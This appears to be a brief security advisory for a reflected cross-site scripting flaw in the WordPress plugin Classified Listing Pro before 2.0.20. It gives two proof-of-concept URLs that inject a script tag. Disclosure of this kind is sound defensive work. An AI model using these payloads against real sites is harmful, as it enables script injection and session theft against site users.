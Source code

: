 Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

Description:
The plugin does not escape a generated URL before outputting it back in an attribute in an admin page, leading to a Reflected Cross-Site Scripting



Proof of Concept:
https://<TARGET>/all-ads/?"><script>alert(/XSS/)</script>
https://<TARGET>/all-properties/?"><script>alert(/XSS/)</script> 
